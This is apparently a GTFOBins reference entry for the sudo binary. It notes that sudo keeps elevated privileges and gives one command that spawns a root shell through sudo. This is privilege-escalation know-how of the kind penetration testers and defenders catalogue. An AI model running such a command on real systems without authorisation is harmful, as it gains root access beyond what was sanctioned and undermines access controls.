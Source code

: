 # GTFOBin: sudo

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo sudo /bin/sh
```